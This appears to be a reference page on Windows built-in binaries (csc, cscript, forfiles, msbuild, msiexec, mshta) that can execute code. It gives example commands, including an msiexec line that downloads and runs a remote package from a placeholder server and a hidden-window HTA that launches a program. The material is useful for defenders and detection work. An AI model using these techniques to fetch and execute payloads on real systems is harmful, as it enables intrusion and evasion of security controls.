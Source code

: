 ##### csc.exe

-   Description: The .NET compiler can be used to compile a c\# payload locally
    that can then be executed.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### cscript.exe/wscript.exe

-   Description: Windows script engines that support both VBS and JScript
    execution. CScript is the console version, WScript is the Window version.
    Neither version supports scripts being supplied on the command line, instead
    a file must be created containing the script or a funky bat file wrapper.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### forfiles.exe

-   Description: Forfiles supports the ability to execute commands and seems to
    be equivalent to cmd.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msbuild.exe

-   Description - Microsoft's build utility where you can supply an inline build
    task to execute code
    (<https://msdn.microsoft.com/en-us/library/dd722601.aspx>)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \server\payload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### msiexec.exe

-   Description - The Windows installer typically used to install new software
    or patches. It be used to download and execute a remote payload.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: msiexec /i [http://server/package.msi](http://server/package.msi)
  Example: msiexec /y payload.dll
  Example: msiexec /z payload.dll
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

##### mshta.exe

-   Description: MSHTA can be used to execute HTA files (containing scripts) or
    directly execute VBScript/JScript from the command line.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
  Example: mshta bad.hta
  Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  Example: mshta javascript:alert('test');
  Example HTA: HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no" CAPTION="no" script language="VBScript"  Set objShell = CreateObject("Wscript.Shell")  objShell.Run "calc.exe"  Close  
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
